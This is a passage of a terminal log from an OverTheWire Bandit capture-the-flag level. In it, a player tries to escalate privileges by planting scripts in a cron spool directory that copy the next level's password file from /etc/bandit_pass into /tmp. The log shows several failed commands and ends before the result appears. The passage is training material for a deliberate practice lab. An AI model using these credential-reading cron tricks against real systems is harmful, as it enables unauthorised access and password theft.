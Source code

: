 ```bash
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/tmp$ ls
ls: cannot open directory '.': Permission denied
bandit23@bandit:/tmp$ cat scriptYa.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.AKHXJUtTS9
bandit23@bandit:/tmp$ cd /car/spool/
-bash: cd: /car/spool/: No such file or directory
bandit23@bandit:/tmp$ cd /var/spool/
bandit23@bandit:/var/spool$ ls
bandit24  cron  mail  rsyslog
bandit23@bandit:/var/spool$ cd bandit24/
bandit23@bandit:/var/spool/bandit24$ ls
foo
bandit23@bandit:/var/spool/bandit24$ ls -l
total 4
drwxrwx-wx 6 root bandit24 4096 Jul 23 02:55 foo
bandit23@bandit:/var/spool/bandit24$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/var/spool/bandit24$ CAT script.sh
Command 'CAT' not found, but can be installed with:
apt install cat-bat
Please ask your administrator.
bandit23@bandit:/var/spool/bandit24$ CAT script.sh
Command 'CAT' not found, but can be installed with:
apt install cat-bat
Please ask your administrator.
bandit23@bandit:/var/spool/bandit24$ cat script.sh
cat: script.sh: No such file or directory
bandit23@bandit:/var/spool/bandit24$ #!/bin/bash
bandit23@bandit:/var/spool/bandit24$ "#!bin/bash/; cat /etc/bandit_pass/bandit24 > /tmp/tmp.AKHXJUtTS9" > /foo/nuevo.sh
-bash: !bin/bash/: event not found
bandit23@bandit:/var/spool/bandit24$ echo "#!bin/bash/; cat /etc/bandit_pass/bandit24 > /tmp/tmp.AKHXJUtTS9" > /foo/nuevo.sh
-bash: !bin/bash/: event not found
bandit23@bandit:/var/spool/bandit24$ c"#!bin/bash; cat /etc/bandit_pass/bandit24 > /tmp/tmp.AKHXJUtTS9" > /foo/nuevo.sh
-bash: !bin/bash: event not found
bandit23@bandit:/var/spool/bandit24$ vim nuevo
bandit23@bandit:/var/spool/bandit24$ mktemp -d
/tmp/tmp.hRk5izjyGn
bandit23@bandit:/var/spool/bandit24$ cd /tmp/tmp.hRk5izjyGn
bandit23@bandit:/tmp/tmp.hRk5izjyGn$ touch dios.sh
bandit23@bandit:/tmp/tmp.hRk5izjyGn$ chmod 777 dios.sh
bandit23@bandit:/tmp/tmp.hRk5izjyGn$ touch resultado.txt
bandit23@bandit:/tmp/tmp.hRk5izjyGn$ chmod 777 resultado.txt
bandit23@bandit:/tmp/tmp.hRk5izjyGn$ pwd
/tmp/tmp.hRk5izjyGn
bandit23@bandit:/tmp/tmp.hRk5izjyGn$ vim dios.sh 
bandit23@bandit:/tmp/tmp.hRk5izjyGn$ cat /tmp/tmp.hRk5izjyGn/resultado.txt 
bandit23@bandit:/tmp/tmp.hRk5izjyGn$ vim dios.sh 
bandit23@bandit:/tmp/tmp.hRk5izjyGn$ cp dios.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmp.hRk5izjyGn$ cat /tmp/tmp.hRk5izjyGn/resultado.txt 
bandit23@bandit:/tmp/tmp.hRk5izjyGn$ ls -l
total 4
-rwxrwxrwx 1 bandit23 bandit23 78 Jul 23 03:05 dios.sh
```